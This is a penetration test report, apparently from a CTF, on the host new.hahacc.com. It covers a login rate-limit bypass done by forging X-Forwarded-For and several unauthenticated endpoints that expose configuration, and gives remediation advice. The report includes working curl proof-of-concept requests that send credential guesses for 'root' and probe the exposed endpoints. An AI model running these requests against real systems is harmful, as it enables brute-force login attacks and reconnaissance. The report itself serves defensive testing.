

# Penetration Test Report: new.hahacc.com (CTF)

- Test date: 2026-05-26
- Target: `new.hahacc.com`
- Scope: target domain and its exposed endpoints only
- Methodology: passive information gathering + endpoint enumeration + authentication and rate-limiting mechanism verification

## Executive Summary

Two categories of core issues were found:

1. Login rate limiting can be bypassed by forging `X-Forwarded-For` (high severity)
2. Multiple unauthenticated endpoints expose sensitive system runtime configuration (medium severity)

## Vulnerability 1: Login Rate Limit Bypass (XFF Header Trust)

- Severity: high
- Affected endpoint: `POST /api/user/login`
- Description:
  The server appears to use a client-controllable header (`X-Forwarded-For`) as the rate-limiting dimension without validating the trustworthiness of the proxy chain. An attacker can forge or rotate XFF to bypass the 429 rate limit and perform high-concurrency credential attempts.

### Reproduction (PoC)

```bash
# 1) Without a forged header: rate limit triggers
curl -k -s -o /dev/null -w "%{http_code}\n" \
  -H "Content-Type: application/json" \
  -X POST "https://new.hahacc.com/api/user/login?turnstile=" \
  --data '{"username":"root","password":"12345678"}'
# Result: 429

# 2) With a forged XFF header: requests are allowed again (rate limit bypassed)
curl -k -s -o /dev/null -w "%{http_code}\n" \
  -H "Content-Type: application/json" \
  -H "X-Forwarded-For: 10.0.0.123" \
  -X POST "https://new.hahacc.com/api/user/login?turnstile=" \
  --data '{"username":"root","password":"12345678"}'
# Result: 200
```

### Evidence

- Consecutive requests without XFF: `429`
- Consecutive requests with rotated XFF: `200`

### Remediation Recommendations

1. Only trust the real source IP injected by the reverse proxy layer (e.g., Nginx `real_ip` + trusted proxy allowlist).
2. Application-layer rate limiting should combine trusted source address + account dimension + device fingerprint.
3. Strictly validate the source of `X-Forwarded-For`; forbid direct client-supplied overrides.
4. Add login failure delay and account protection policies (sliding window, exponential backoff, CAPTCHA escalation).

## Vulnerability 2: Unauthenticated Sensitive Information Exposure (Status and Business Configuration)

- Severity: medium
- Affected endpoints:
  - `GET /api/status`
  - `GET /api/pricing`
  - `GET /api/setup`
- Description:
  Without logging in, an attacker can obtain the full system runtime configuration, feature flags, OAuth/Passkey parameters, group policies, and model/billing policies. This information can be used for precise attack-surface mapping and credential-stuffing strategy optimization.

### Reproduction (PoC)

```bash
curl -k -s https://new.hahacc.com/api/status
curl -k -s https://new.hahacc.com/api/pricing
curl -k -s https://new.hahacc.com/api/setup
```

### Key Exposed Fields (Examples)

- `self_use_mode_enabled`
- `turnstile_check`
- `passkey_rp_id` / `passkey_origins`
- `supported_endpoint` / `group_ratio` / `usable_group`
- `setup` and `root_init` status fields

### Remediation Recommendations

1. Move highly sensitive configuration behind authenticated endpoints; return only the minimal frontend display fields.
2. Enforce a field allowlist on anonymous endpoint output; reject internal configuration fields by default.
3. Apply access control and output minimization to initialization-status endpoints (to prevent state inference).

## Attack Path Diagram



## Additional Test Notes

- Multiple open ports were found at the port level (22/80/443/3000/3306/5000/5432/6379/8080/8443/9200/27017), but most service fingerprints were restricted and were not further exploited within this scope.
- Most endpoints probed in bulk enumeration are auth-protected (401), indicating the core business still has basic authentication.

## Risk Conclusion

The main risk of this target is not "direct unauthorized login" but "bypassable brute-force protection + excessive anonymous information exposure". Combined exploitation can significantly lower the attacker's cost.
